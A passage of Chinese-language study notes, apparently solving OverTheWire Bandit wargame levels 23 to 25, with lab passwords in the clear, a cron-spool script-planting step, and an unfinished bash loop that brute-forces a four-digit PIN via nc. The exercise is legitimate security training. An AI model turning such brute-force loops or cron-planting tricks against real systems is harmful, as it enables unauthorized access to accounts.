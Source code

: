   - chmod 777 shell.sh
  
  - cp shell.sh /var/spool/bandit24/foo/
  
  - cat bandit23pass
  
  - 获得密码：gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## lv24-25[尚有问题]

- 目标：
  
  - A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
    You do not need to create new connections each time

- 命令学习：
  
  - nc
    
    - nc 参数 域名或IP地址  
      原文链接：[nc命令 &#8211; 扫描与连接指定端口 &#8211; Linux命令大全(手册)](https://www.linuxcool.com/nc)

- 解题步骤：
  
  - ssh -p 2220 bandit24@bandit.labs.overthewire.org 
  
    - gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
  
  - mkdir /tmp/bandit24tmp
  
  - cd /tmp/bandit24tmp
  
  - vim shell.sh
  
    - ```shell
      for ((i=1000;i<10000;i++));do echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" >> pingcode.txt;done
      
      #!/bin/bash  
      BANDIT24_PASS="VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"  
      
      for PIN in {0000..9999}  
      do  
          RESPONSE=$(echo "$BANDIT24_PASS $PIN" | nc localhost 30002)  
          if [[ $RESPONSE == *"Correct"* ]]  
          then  
              echo "Found the PIN: $PIN"  
              echo "The response from the daemon is: $RESPONSE"  
              break  
          elif [[ $RESPONSE == *"Wrong"* ]]  # 假设响应中可能包含 "Wrong"  
          then  
              echo "The PIN $PIN is wrong."  
          fi  
      
          # 每1000次迭代后暂停2秒（注意：是从0开始计数的，所以应该是 % 1000 == 0）  
          if (( $PIN % 1000 == 0 )); then  
              sleep 2  
          fi  
      done
      ```
  